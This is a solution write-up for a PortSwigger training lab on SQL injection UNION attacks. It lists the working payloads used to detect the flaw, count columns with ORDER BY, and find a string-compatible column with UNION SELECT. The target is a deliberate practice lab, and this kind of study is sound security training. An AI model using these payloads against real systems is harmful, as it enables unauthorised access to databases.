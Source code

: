 # [Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

## Solutions

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```http
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
    - payloads: 1 -> 10
    - result:

      ![1.png](./../img/lab-3-determining-nb-of-cols.png)

    - => 3 columns
3. Finding a column containing text using `UNION`:
    - `'UNION+SELECT+'g9mlxp',NULL,NULL--` -> 500
    - `'UNION+SELECT+NULL,'g9mlxp',NULL--` -> 200 -> Lab Solved
    - `'UNION+SELECT+NULL,NULL,'g9mlxp'--` -> 500
